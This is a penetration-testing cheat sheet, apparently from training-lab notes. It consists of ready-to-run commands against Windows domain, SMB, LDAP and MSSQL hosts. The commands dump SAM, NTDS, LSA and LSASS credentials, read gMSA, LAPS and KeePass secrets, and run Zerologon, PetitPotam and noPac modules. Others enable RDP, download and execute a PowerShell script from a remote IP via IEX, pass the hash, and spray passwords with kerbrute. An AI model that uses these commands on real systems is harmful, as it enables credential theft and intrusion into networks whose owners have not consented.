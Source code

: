 ```bash
nxc mssql 172.16.15.15 -u sql -p 'Nexus123!' --local-auth -q "SELECT name FROM master.dbo.sysdatabases"
nxc mssql 172.16.15.15 -u sql -p 'Nexus123!' --local-auth -q "SELECT table_name from interns.INFORMATION_SCHEMA.TABLES"
nxc mssql 172.16.15.15 -u sql -p 'Nexus123!' --local-auth -q "SELECT * from [dbname].[dbo].table_name"
nxc mssql 172.16.15.15 -u sql -p 'Nexus123!' --local-auth -M mssql_priv -o ACTION=rollback

# sid
nxc ldap dc01.inlanefreight.htb -u username -p 'Nexus123!' --get-sid
# MS-DS-Machine-Account-Quota
nxc ldap dc01.inlanefreight.htb -u username -p 'Nexus123!' -M maq
# gMSA
nxc ldap dc01.inlanefreight.htb -u username -p 'Nexus123!' --gmsa
# laps
nxc ldap dc01.inlanefreight.htb -u username -p 'Nexus123!' -M laps

# secret dump
nxc smb 10.129.204.177 -u username -p 'Nexus123!' --sam
nxc smb 10.129.204.177 -u username -p 'Nexus123!' --ntds --enabled
nxc smb 10.129.204.177 -u username -p 'Nexus123!' --lsa 
nxc smb 10.129.204.177 -u username -p 'Nexus123!' -M lsassy
nxc smb 10.129.204.177 -u username -p 'Nexus123!' -M handlekatz
nxc smb 10.129.204.177 -u username -p 'Nexus123!' -M nanodump
## KeePass
nxc smb 10.129.203.121 -u username -p 'Nexus123!' -M keepass_discover
nxc smb 10.129.105.44 -u username -p 'Nexus123!' -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/CreatePass/KeePass.config.xml
cat /tmp/export.xml | grep -i protectinmemory -5

## Vuln
nxc smb 10.129.203.121 -u username -p 'Nexus123!' -M Zerologon
nxc smb 10.129.203.121 -u username -p 'Nexus123!' -M PetitPotam
nxc smb 10.129.203.121 -u username -p 'Nexus123!' -M nopac

## Enable RDP
nxc smb 10.129.203.121 -u username -p 'Nexus123!' -M rdp -o ACTION=enable
nxc smb 10.129.203.121 -u username -p 'Nexus123!' -M rdp -o ACTION=disable
```
### PsMapexec
```powershell
wget https://raw.githubusercontent.com/The-Viper-One/PsMapExec/main/PsMapExec.ps1
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.108/PsMapExec.ps1')

PsMapExec -Targets All -Domain htb.local -Method SMB -Username user -Hash 9a3121977ee93af56ebd0ef4f527a35e -Command "whoami"
```
### kerbrute
```bash
wget https://raw.githubusercontent.com/insidetrust/statistically-likely-usernames/master/jsmith.txt

kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /usr/share/seclists/Usernames/Names/names.txt

kerbrute passwordspray ./userlist Password123! --dc 10.10.10.248 -d active.htb 
```
### mimikatz
```powershell
cd /usr/share/windows-resources/powersploit/Exfiltration/
cd /opt/mimikatz/x64

# PTH
```